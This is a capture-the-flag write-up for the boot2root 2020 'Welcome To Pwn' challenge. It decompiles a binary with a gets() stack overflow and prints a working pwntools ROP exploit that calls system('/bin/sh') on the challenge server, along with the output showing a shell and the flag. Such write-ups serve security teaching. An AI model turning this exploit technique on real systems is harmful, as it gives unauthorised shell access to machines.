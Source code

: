 # boot2root 2020

## Welcome To Pwn

> 457
>
> Welcome to pwn, here is an easy challenge to get you started.
>
> `nc 35.238.225.156 1001`
>
> Author: Viper_S
> 
> [welcome](welcome)

Tags: _pwn_ _x86-64_ _remote-shell_ _bof_ _rop_


## Summary

Basic ROP binary with freebies included.
 

## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

No PIE or Canary; easy ROP.


### Decompile with Ghidra

```c
undefined8 main(void)
{
  char local_98 [140];
  __gid_t local_c;
  
  setvbuf(stdout,(char *)0x0,2,0);
  local_c = getegid();
  setresgid(local_c,local_c,local_c);
  puts("----WELCOME TO PWN----");
  printf("Let\'s see what u got ");
  gets(local_98);
  puts("Damn that\'s it?");
  return 0;
}
```

`gets` with no stack canary provides an easy buffer overflow.

Normally I'd use `puts` to _put_ itself out there (i.e. leak its address using the GOT), then use that to find the version and address of libc so that I could then find both `system` and `/bin/sh` in libc, but that is not necessary here:

```bash
# strings welcome | grep /bin/sh
/bin/sh
```

If `/bin/sh` is in there, perhaps `system` is in the GOT:

```bash
# objdump -M intel -d welcome | grep system
0000000000401050 <system@plt>:
  401192:	e8 b9 fe ff ff       	call   401050 <system@plt>
```

Yep, so all we need to do is write out `0x98` bytes of junk (`local_98` is `0x98` bytes from the return address), then call `system` with the location of `/bin/sh`.


## Exploit

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./welcome')

if args.REMOTE:
    p = remote('35.238.225.156', 1001)
else:
    p = process(binary.path)

rop = ROP([binary])
pop_rdi = rop.find_gadget(['pop rdi','ret'])[0]

payload  = b''
payload += 0x98 * b'A'
payload += p64(pop_rdi+1)
payload += p64(pop_rdi)
payload += p64(binary.search(b'/bin/sh').__next__())
payload += p64(binary.plt.system)

p.sendlineafter('what u got ',payload)
p.interactive()
```

`pop_rdi+1` is the same as `ret` and is used to align the stack, otherwise `system` would segfault (see [blind-piloting](https://github.com/datajerk/ctf-write-ups/tree/master/b01lersctf2020/blind-piloting) and search for stack-alignment).  The next instruction will pop the address of `/bin/sh` into `rdi` (required for `system`). Lastly, `system` is called.

Output:

```bash
# ./exploit.py REMOTE=1
[*] '/pwd/datajerk/boot2root2020/welcome_to_pwn/welcome'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to 35.238.225.156 on port 1001: Done
[*] Loaded 14 cached gadgets for './welcome'
[*] Switching to interactive mode
Damn that's it?
$ cat flag
b00t2root{W3lc0m3_T0_Pwn_YjAwdDJyb290JzIw}
```
